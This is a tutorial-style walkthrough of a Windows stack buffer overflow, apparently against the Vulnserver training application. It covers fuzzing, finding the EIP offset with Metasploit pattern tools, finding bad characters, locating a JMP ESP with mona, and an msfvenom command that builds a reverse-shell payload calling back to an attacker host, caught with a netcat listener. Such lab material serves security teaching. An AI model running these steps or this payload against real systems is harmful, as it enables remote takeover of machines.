 # Buffer Overflow

## First, Use a Python Script

* fuzz the command and find the byte value that it crashed the program with Immunity Debugger
* the python script will tell you when the app crashes and around what bytes

![](../.gitbook/assets/buffer-overflow-pic-0.png)

![](../.gitbook/assets/buffer-overflow-pic-1.png)

## Metasploit Module, Run Without Opening msfconsole

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000 
#(3000 is the Byte value where the program crashed)
```

## Run it Again with the Python Script, but with the New Fffset

* notice how the "TRUN" command now has "/.:/" behind it
* this is because of we found that value within Immunity Debugger when we crashed it the first time

![](../.gitbook/assets/buffer-overflow-pic-2.png)

## Check Immunity Bugger for “EIP” to be overwritten with a Value

* take that value and run this new command
* this finds the offset

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset -l 3000 -q 386F4337
#(this -q value is what value was left within the EIP)
```

* it will give us the exact offset byte value, this example will be 2003

## Overwrite the EIP

* rewrite the script
* “A” \* 2003 is to overwrite the buffer up until the EPI
* “B” \* 4 is to confirm we have the right spot by putting in different values
* EAX and EBP should be all A's
* EPI should be all B's
* remember it is HEX CODE!

![](../.gitbook/assets/buffer-overflow-pic-3.png)

![](../.gitbook/assets/buffer-overflow-pic-4.png)

## Finding Bad Characters

* What characters are good and bad for the shell code?

```text
badChars = (
"\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f"
"\\x10\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f"
"\\x20\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f"
"\\x30\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f"
"\\x40\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\\x4d\\x4e\\x4f"
"\\x50\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f"
"\\x60\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f"
"\\x70\\x71\\x72\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f"
"\\x80\\x81\\x82\\x83\\x84\\x85\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f"
"\\x90\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f"
"\\xa0\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf"
"\\xb0\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf"
"\\xc0\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf"
"\\xd0\\xd1\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf"
"\\xe0\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef"
"\\xf0\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff"
)
```

### Edit the script

![](../.gitbook/assets/buffer-overflow-pic-5.png)

* run the script and crash the program again, which is okay
* in the “Registers” section of Immunity Debugger, right click ESP and click "Follow in Hex Dump"
* Look for what is out of place, in this case, B0 is the odd one
* it should go in order, 01 02 03, etc.
* NULL BYTE = 00, IT IS ALWAYS A BAD CHARACTER. EVEN IF YOU FIND NO BAD CHARACTERS 00 IS ALWAYS BAD

![](../.gitbook/assets/buffer-overflow-pic-6%20%281%29.png)

## Finding the Right Module

* This is when you are looking for a DLL, or something similar, that has no memory protections
* “Mona Modules” on Github is a tool that is used to find the right place
* paste it in “This PC, C Drive, Program Files \(x86\), Immunity Inc, Immunity Debugger, PyCommands Folder”
* Now, on the bottom of Immunity Debugger, you search “!mona modules”
* look for a path that is attached to the program you are breaking, and also has FALSE for all memory protections

![](../.gitbook/assets/buffer-overflow-pic-7.png)

### Now we go to Kali Linux, to get the Jump Code

```bash
“locate nasm_shell”
“/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb”
```

* in the shell, type “JMP ESP”
* copy the results, which in this case is FFE4

### Go Back to Immunity Debugger and in the Bottom Search

```bash
!mona find -s ”\xff\xe4" -m essfunc.dll #<- essfunc.dll is the dll it found to be vulnerable
```

![](../.gitbook/assets/buffer-overflow-pic-8.png)

### It Displays Results, and Start at the Top and Go Down the List with the Following Steps

* go to Kali Linux and edit the Python script again
* keep in mind the Return Address

![](../.gitbook/assets/buffer-overflow-pic-9.png)

go back to Immunity Debugger, and click on the Blue Arrow next to the Red Arrows and type in the Return Address, then set a break point there \(F2 for Windows\)

* click play
* Run the new Python script, and notice how Immunity Bugger has paused. Congrats we control the EIP!

### Now use msfvenom to create a shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<attack machine IP> LPORT=4444 EXITFUNC=thread -f c -a x86 -b ”\x00" #(f is filetype, a is architecture, b is bad characters and where you would put them)
```

* once executed, copy the “unsigned char buf\[\]” values without the semi-colon
* now, once again edit the Python script
* add a variable “overflow" to the top and paste in the values surrounded by \(\) parenthesis
* add padding and “overflow” to “shellcode”
* 32 is the padding value which can be lowered if working with small sizes \(padding makes the buffer overflow work better\)

![](../.gitbook/assets/buffer-overflow-pic-10.png)

* set up a Netcat listener with the same ports you put within “LPORT” with your shell code
* make sure the Terminal App is running, then run the Python script


